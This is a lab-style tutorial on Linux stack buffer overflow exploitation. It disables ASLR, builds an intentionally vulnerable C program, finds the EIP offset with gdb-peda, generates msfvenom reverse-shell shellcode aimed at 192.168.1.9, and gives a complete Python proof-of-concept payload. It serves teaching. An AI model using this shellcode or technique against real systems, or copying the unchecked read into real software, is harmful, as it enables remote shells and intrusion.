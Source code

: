 # Linux Buffer Overflow Foundation
## 1. What is Buffer Overflow
Exploiting the behavior of a buffer overflow is a well-known security exploit. On many systems, the memory layout of a program, or the system as a whole, is well defined. By sending in data designed to cause a buffer overflow, it is possible to write into areas known to hold executable code and replace it with malicious code, or to selectively overwrite data pertaining to the program's state, therefore causing behavior that was not intended by the original programmer. Buffers are widespread in operating system (OS) code, so it is possible to make attacks that perform privilege escalation and gain unlimited access to the computer's resources. The famed Morris worm in 1988 used this as one of its attack techniques.

![bo_imagination.png](bo_imagination.png)

## 2. Overflowing Program on Linux
### 2.1 Setting up environment
First up, we need to turn off Address Space Layout Randomization (ASLR):
```bash
$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Program source code:
```c
#include<stdio.h>
#include<unistd.h>

int overflow(){
  char buffer[500];
  int userinput;
  userinput = read(0, buffer, 700);
  printf("\nUser provided %d bytes. Buffer content: %s", userinput, buffer);
  return 0;
}

int main(int argc, char*argv[]){
  overflow();
  return 0;
}
```

In here, we will use complier `gcc` to compile to code
```sh
$ gcc oversize_overflow.c  -fno-stack-protector -z execstack -o oversize_overflow
```


### 2.2 Overriding EIP
First up, we know the buffer size around 500 bytes or more, let's check how long it will crash and override the `EIP`, so let's try to fuzz the program to crash

Let's make 500 bytes of `A` and send to program to see if it crash
```bash
$ python3 -c "print('A'*500)" | ./oversize_overflow
```
![[image1.png]]
As we can see, the program works good, so let's try with bigger size:
```bash
$ python3 -c "print('A'*700)" | ./oversize_overflow
```
![[image2.png]]
At this time, the program crashed with 700 bytes size. Now on, using the gdb debugger to determine and get exact offset and override the `EIP`:
```bash
$ gdb -q oversize_overflow
```
In my gdb debugger, I've already installed [peda](https://github.com/longld/peda) , so there are many tool you might not see or you can use another tool likewise is ok.
- Creating fuzz buffer to get exact stack size:
```sh
gdb-peda$ pattern create 700 1.txt
Writing pattern of 700 chars to filename "1.txt"
gdb-peda$ r < 1.txt
```
![[image3.png]]
Here is the reuslt, and we can see the `EIP` (`0x4e734138`) point to invalid address, so the program crashed. Now, we are going to get exact size:
```sh
gdb-peda$ pattern offset 0x4e734138
1316176184 found at offset: 516
```
Get back to terminal, create the basic exploit to see if it overrided:
```sh
$ python -c "print('A'*516+'B'*4+'C*100')" > input.txt
```
Run the input file in gdb debugger, we can see the `EIP` overrided with 0x42424242 (meant BBBB). We are completely done with overriding the `EIP`.
![[image4.png]]
### 2.3 Execute the Shellcode
#### 2.3.1 Shellcode generation
To generate the shellcode, in this section we will use msfvernom to genterate it
```bash
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.1.9 lport=4444 -b "\x00" -f python -o payload.py --platform linux -a x86
```
- Options description:
```sh
-p: Which mean payload
-b: bad characters caused crash
-f: file type
-o: output
-a: architecture
--platform: platform for the payload
lhost: listening host
lport: listening port
```
![[image5.png]]

#### 2.3.2 Finding the returning address to execute the shellcode
We got the shellcode, now we need to find the address to override the `EIP` and point it to the shellcode to make it execute. To do this, we will make `A` buffer and open the `gdb`.
```bash
$ python -c "print('A'*700)" > input.txt

gdb-peda$ r < input.txt
```
After run, the program will be crashed, use `x/20wx $esp-0x230` to show stack similar with below picture.
![[image6.png]]
In the picture, we can see the buffer start in `0xffffd030 + 0x8`, so `0xffffd038` will be our return address
#### 2.3.3 Proof of Concept (PoC)
We will edit the `payload.py` which we've already created above:
```python
#!/usr/bin/python3
import struct

buf =  b""
buf += b"\xdb\xc3\xd9\x74\x24\xf4\x5d\x29\xc9\xbe\x4d\x2c\x0e"
buf += b"\xe0\xb1\x12\x83\xed\xfc\x31\x75\x13\x03\x38\x3f\xec"
buf += b"\x15\xf3\xe4\x07\x36\xa0\x59\xbb\xd3\x44\xd7\xda\x94"
buf += b"\x2e\x2a\x9c\x46\xf7\x04\xa2\xa5\x87\x2c\xa4\xcc\xef"
buf += b"\x6e\xfe\x2e\xe6\x06\xfd\x30\xe9\x8a\x88\xd0\xb9\x55"
buf += b"\xdb\x43\xea\x2a\xd8\xea\xed\x80\x5f\xbe\x85\x74\x4f"
buf += b"\x4c\x3d\xe1\xa0\x9d\xdf\x98\x37\x02\x4d\x08\xc1\x24"
buf += b"\xc1\xa5\x1c\x26"

with open('input.txt', 'wb') as file:
    offset = 516
    nop = b'\x90'*16
    junk = b'A'
    ret_add = struct.pack('<L', 0xffffd038)
    payload = nop + buf + junk * (offset - 16 -len(buf)) + ret_add
    file.write(payload)
```
After run we have text file `input.txt`![[image7.png]]
Finally, we got the result, shellcode is connected![[image8.png]]
![[image9.png]]

------------------------------------------------------- Done -------------------------------------------------------

